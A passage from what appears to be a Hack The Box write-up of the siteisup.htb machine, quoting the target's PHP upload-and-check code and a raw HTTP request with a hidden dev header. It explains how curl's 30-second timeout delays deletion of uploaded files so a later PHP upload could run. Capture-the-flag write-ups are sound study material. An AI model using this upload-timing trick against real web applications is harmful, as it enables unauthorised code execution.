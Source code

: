 ```php
	
  # Delete the uploaded file.
	@unlink($final_path);
}
```

It was also uploading files to a different folder every time. Luckily, directory listing was not disabled on the uploads folder, so I did not need to guess the folders where my files were being uploaded. I also did not need to use the LFI to execute PHP code if I were to find a way to upload a PHP file.

The deleting of the file could have been an issue, but I quickly found a way around that.

```php
function isitup($url){
	$ch=curl_init();
	curl_setopt($ch, CURLOPT_URL, trim($url));
	curl_setopt($ch, CURLOPT_USERAGENT, "siteisup.htb beta");
	curl_setopt($ch, CURLOPT_HEADER, 1);
	curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
	curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
	curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
	curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
	curl_setopt($ch, CURLOPT_TIMEOUT, 30);
	$f = curl_exec($ch);
	$header = curl_getinfo($ch);
	if($f AND $header['http_code'] == 200){
		return array(true,$f);
	}else{
		return false;
	}
    curl_close($ch);
}
```

The code was using Curl to check if the websites were up. And it had a 30 seconds timeout. Hack The Box machines do not have access to the internet, so if I tried to check on any sites, it would hang for 30 seconds before deleting the file. I could add more lines if I needed more time.

```http
POST / HTTP/1.1
Host: dev.siteisup.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------27067171744469957932680288557
Content-Length: 387
Origin: http://dev.siteisup.htb
Connection: close
Referer: http://dev.siteisup.htb/
Upgrade-Insecure-Requests: 1
Special-Dev: only4dev

-----------------------------27067171744469957932680288557
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

https://app.hackthebox.com
https://app.hackthebox.com
-----------------------------27067171744469957932680288557
Content-Disposition: form-data; name="check"

Check
-----------------------------27067171744469957932680288557--
```